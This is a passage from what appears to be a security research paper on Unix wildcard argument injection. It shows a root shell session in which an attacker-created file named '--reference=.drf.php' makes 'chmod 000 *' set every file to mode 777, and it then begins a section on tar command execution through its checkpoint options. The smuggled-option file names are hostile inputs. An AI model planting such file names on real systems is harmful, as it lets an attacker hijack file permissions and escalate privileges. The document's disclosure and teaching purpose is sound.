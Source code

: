 -rw-rw-r--.  1 user user   111 Oct 28 17:38 index.php
-rw-r--r--.  1 leon leon     0 Oct 29 00:41 --reference=.drf.php
-rw-rw-r--.  1 user user    94 Oct 28 17:38 script.php

Superuser will now try to set mode 000 on all files.

[root@defensecode public]# chmod 000 *

Let's check permissions on files...

[root@defensecode public]# ls -al
total 68
drwxrwxrwx.  2 user user  4096 Oct 29 00:41 .
drwx------. 24 user user  4096 Oct 28 18:32 ..
-rwxrwxrwx.  1 user user 20480 Oct 28 19:13 admin.php
-rwxrwxrwx.  1 user user    34 Oct 28 17:47 ado.php
-rwxrwxrwx.  1 user user   187 Oct 28 17:44 db.php
-rwxrwxrwx.  1 user user   201 Oct 28 17:43 download.php
-rwxrwxrwx.  1 leon leon     0 Oct 29 00:40 .drf.php
-rwxrwxrwx.  1 user user    43 Oct 28 17:35 file1.php
-rwxrwxrwx.  1 user user    56 Oct 28 17:47 footer.php
-rwxrwxrwx.  1 user user   357 Oct 28 17:36 global.php
-rwxrwxrwx.  1 user user   225 Oct 28 17:37 header.php
-rwxrwxrwx.  1 user user   117 Oct 28 17:36 inc.php
-rwxrwxrwx.  1 user user   111 Oct 28 17:38 index.php
-rw-r--r--.  1 leon leon     0 Oct 29 00:41 --reference=.drf.php
-rwxrwxrwx.  1 user user    94 Oct 28 17:38 script.php

What happened? Instead of 000, all files are now set to mode 777 because
of the '--reference' option supplied through file name..
Once again, file .drf.php owned by user 'leon' with mode 777 was 
used as reference file and since --reference option is supplied, all files
will be set to mode 777.
Beside just --reference option, attacker can also create another file with 
'-R' filename, to change file permissions on files in all subdirectories recursively.



## 4.3 Tar arbitrary command execution 

Previous example is nice example of file ownership hijacking. Now, let's go to even 
more interesting stuff like arbitrary command execution. Tar is very common unix program 
for creating and extracting archives.
Common usage for lets say creating archives is:

[root@defensecode public]# tar cvvf archive.tar *

So, what's the problem with 'tar'? 
Thing is that tar has many options, and among them, there some pretty interesting
options from arbitrary parameter injection point of view.

Let's check tar manual page (man tar):

      --checkpoint[=NUMBER]
              display progress messages every NUMBERth record (default 10)
